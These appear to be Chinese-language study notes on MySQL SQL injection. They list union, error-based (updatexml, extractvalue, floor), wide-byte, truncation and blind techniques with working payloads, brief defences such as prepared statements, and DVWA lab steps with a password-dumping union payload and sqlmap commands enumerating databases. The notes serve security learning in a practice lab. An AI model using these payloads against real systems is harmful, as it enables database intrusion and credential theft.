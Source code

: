 mysql注入方式
    1)union方式
    2)mysql显错
        1 通过updatexml函数：select * from message where id=1 and updatexml(1, (concat(0x7c, (select @@version))), 1);#XPATH syntax error：‘|5.1.50-community-log’
        2 通过extractvalue：select * from message where id=1 and extractvalue(1, concat(0x7c, (select user())));#XPATH syntax error：‘|root@localhost’
        3 通过floor函数：select * from message where id=1 union select * from (select count(*), concat(floor(rand(0)*2),select user()) a from information_schema.tablesgroup by a)b#Duplicate entry '1root@localhost' for key 'group_key'

    3)宽字节注入
        '   %d5
    4)MySql长字符截断
        sql_mode = default ，即STRICT_ALL_TABLES未开启 即有机会导致截断注入
    5) 延时注入(盲注)

防御手段：
        1 严格的数据类型：java C#等强类型语言几乎完全忽略数字行注入
                防御数字型注入：进行数字类型判断，非数字，自动抛出错误
        2 特殊自负转义
                OWASP ESAPI 自负转义接口
        3 使用预编译语句

DVWA 
  sql injection
      low: 1' union select password, null from users;-- &Submit=Submit
      测试流程
            sqlmap -u "http://192.168.2.105/DVWA-1.9/vulnerabilities/sqli/?id=aaaaaaaa&Submit=Submit#" -p 'id' --cookie="security=low; PHPSESSID=6h7svkbduj1vpr631rmqqt7k87" -v 1
            sqlmap -u "http://192.168.2.105/DVWA-1.9/vulnerabilities/sqli/?id=aaaaaaaa&Submit=Submit#" -p 'id' --cookie="security=low; PHPSESSID=6h7svkbduj1vpr631rmqqt7k87" -v 1 --dbs
            sqlmap -u "http://192.168.2.105/DVWA-1.9/vulnerabilities/sqli/?id=aaaaaaaa&Submit=Submit#" -p 'id' --cookie="security=low; PHPSESSID=6h7svkbduj1vpr631rmqqt7k87" -v 1 --current-db
            sqlmap -u "http://192.168.2.105/DVWA-1.9/vulnerabilities/sqli/?id=aaaaaaaa&Submit=Submit#" -p 'id' --cookie="security=low; PHPSESSID=6h7svkbduj1vpr631rmqqt7k87" -v 1 --table -D "dvwa"
